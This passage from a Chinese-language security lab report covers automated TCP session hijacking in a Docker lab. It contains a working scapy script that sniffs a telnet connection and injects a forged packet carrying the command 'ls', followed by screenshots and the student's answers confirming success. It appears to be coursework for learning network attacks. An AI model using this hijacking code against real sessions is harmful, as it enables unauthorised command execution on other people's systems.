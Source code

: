 ## 3.5 用`scapy`自动攻击

### 3.5.1 普通命令

- 该攻击过程中的`Wireshark`数据见`3.5.利用scapy自动攻击.pcapng`

- 该部分使用`scapy`的嗅探功能自动拦截符合要求数据包并且构造相应的攻击报文，具体过程与手动攻击相似，拦截服务器发送给客户端的报文，从中提取源`IP`、源端口、目的`IP`、目的端口、窗口大小、`Ack`、`Seq`和`TCP`数据长度，从而构造攻击报文，自动攻击程序`hijacking_auto_simple.py`如下

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  SRC  = "172.17.0.3"   # Server IP
  DST  = "172.17.0.2"   # Client IP
  PORT = 23             # Server telnet port
  
  def spoof(pkt):
      old_ip  = pkt[IP]
      old_tcp = pkt[TCP]
  
      #############################################
      ip = IP(src = old_ip.dst, dst = old_ip.src)
      tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
      data = "\rls\r"
      #############################################
  
      pkt = ip/tcp/data
      send(pkt,verbose=0)
      ls(pkt)
      quit()
  
  f = 'tcp and src host {} and dst host {} and src port {}'.format(SRC, DST, PORT)
  sniff(filter=f, prn=spoof, iface="docker0")
  ```

- 首先使用户机使用`telnet`连接服务机，再在攻击机使用程序`hijcaking_auto_simple.py`进行攻击：`sudo python3 ./hijcaking_auto_simple.py`，为了激活攻击程序，在用户机的`telnet`中任意输入一个字符，可以观察到`scapy`发送了攻击报文
  ![3.5.1.scapy发送了攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121315647.png)

- `scapy`发送的攻击报文如下
  ![3.5.2.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121315109.png)

- 服务机返回的报文（即指令的运行结果）如下
  ![3.5.3.服务机返回的报文（即指令的运行结果）](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132041430.png)
  
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 期待看到用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 观察到了用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 是。
  